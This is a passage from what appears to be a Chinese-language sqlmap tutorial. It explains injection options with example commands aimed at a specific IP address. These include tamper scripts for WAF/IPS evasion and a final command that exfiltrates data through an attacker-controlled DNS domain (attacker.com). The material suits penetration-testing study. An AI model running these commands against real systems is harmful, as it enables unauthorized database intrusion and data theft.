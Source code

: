 

##### **—os ：指定操作系统，还可以是Linux** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —os=”Windows”



##### **—invalid-bignum ：sqlmap默认使用负值让参数进行失效，该参数使用最大值让参数失效，比如 id=9999999** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —invalid-bignum



##### **—invalid-logical ：使用布尔值，比如 id 13 and 18=19** 



> **python sqlmap.py -u “**http://59.63.200.79:8003/?id=1**“ —invalid****-logical**





##### **—no-cast：将sqlmap取出的数据转换为字符串，并用空格替换NULL结果，在老版本时需要开启此开关。**

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —no-cast



##### **—no-escape：为了逃逸服务器端对sqlmap的检测，默认使用char()编码替换字符****串。**

##### 本参数将关闭此功能。比如 select ‘foo’ —> select cahr(102) + char(111) + char(111) 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —no-escape



##### **—prefix：添加前缀** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —prefix “‘)’”



##### **—suffix ：添加后缀** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —suffix “AND (‘abc’=’abc”



##### **—tamper：使用脚本，绕过IPS、WAF等** 

**p**

> ython sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —tamper=”tamper/between.py,tamper/randomcase.py”



##### **—dns-domain：攻击者控制了DNS服务器，可以提高取出数据的效率** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —dns-domain attacker.com
